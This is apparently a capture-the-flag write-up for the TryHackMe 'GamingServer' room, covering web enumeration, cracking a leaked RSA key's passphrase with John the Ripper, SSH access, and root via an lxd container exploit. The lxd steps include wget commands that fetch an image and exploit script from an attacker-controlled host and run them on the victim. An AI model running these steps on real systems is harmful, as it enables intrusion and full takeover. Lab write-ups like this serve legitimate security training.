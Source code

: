 # GamingServer

[Room Link](https://tryhackme.com/room/gamingserver)

## Enumeration
Using rustscan on the IP we can find 2 open ports: 80 (HTTP) and 22 (SSH)

## Website
The website is meant to promote a new video game, on the surface nothing of note can be found.
Opening the devtools on the homepage reveals a comment written by one of the main developers, the comment is directed to a user called "john".
> john, please add some actual content to the site! lorem ipsum is horrible to look at.

Running gobuster on the website reveals 2 interesting directories: secret and uploads.

Going to the uploads page shows a meme image, the hacker manifesto and a dictionary list, the dictionary list which we download.
The uploads directory shows a private RSA key, we can crack this key using JohnTheRipper giving us the password "letmein"

```sh
ssh2john secretKey > john_ssh.txt
john john_ssh.txt --wordlist=dict.list
```

## SSH
We have gathered enough information to log in using SSH, user john with password letmein gives us access.

```sh
chmod 600 secretKey
ssh -i secretKey john@[ip]
```

After getting into the system I get linpeas on the system using a python3 webserver and wget.
Linpeas shows a user called "lxd" it also tells us this is 99% an attack vector.
If you don't know lxd is a container technology, kinda like Docker.

Now that we have a potential attack vector it's time to research, using searchsploit (exploit-db) I was able to find an exploit on Ubuntu 18.04.
I used [this following exploit](https://www.exploit-db.com/exploits/46978) it was nicely documented and easy to set up.

```sh
# On the attacker machine
wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
sudo chmod +x build-alpine
sudo ./build-alpine
python3 -m http.server

# This part is done on the victim
wget http://[attacker-ip]/alpine/alpine-v3.12-x86_64-20200903_1439.tar.gz
wget http://[attacker-ip]/exploit.sh # note: I copied the source code of the exploit to this exploit.sh file
chmod +x exploit.sh
./exploit.sh

# A container will open, this means the exploit has worked
cat /mnt/root/root/root.txt
```

As the exploit mentions the original filesystem can be found at /mnt/root so going over there you can easily snag the root flag

## Conclusion
This was a simple box that can easily be rooted in under half an hour even without knowing about any of the technologies it uses.
This box was also my first time getting to mess around with lxd (and even containers in general) so I'm happy to have learned about it.


